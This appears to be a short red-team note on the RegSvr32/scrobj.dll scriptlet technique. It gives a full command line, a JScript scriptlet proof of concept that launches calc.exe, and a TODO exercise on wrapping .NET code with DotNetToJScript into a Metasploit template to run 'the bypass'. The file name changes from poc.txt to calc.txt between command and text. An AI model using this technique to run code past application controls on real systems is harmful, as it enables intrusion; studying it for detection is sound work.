


# RegSvr32

## RegSvr32 usage



* Register/Unregister DLL and ActiveX control in windows Registry
* Include registering/unregistering COM scriptlet files

`c:\Windows\System32\RegSvr32.exe /s /n /u /i:C:\users\Homer_Potter\desktop\poc.txt scrobj.dll`

where calc.txt contains :

```text
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    >
    <!-- Proof Of Concept - Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
    
            var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
    
        ]]>
    </script>
</registration>
</scriptlet>
```

## Obfuscation using XLS files <a id="obfuscation-using-xls-files"></a>





TODO

If you're not familiar with DotNetToJScript, check out the GitHub Repo. Write a .NET assembly that opens up Internet Explorer, compile it, run it through DotNetToJScript and then put the resultant JScript into the metasploit COM scriptlet template. Execute the bypass and verify that IE opens up.

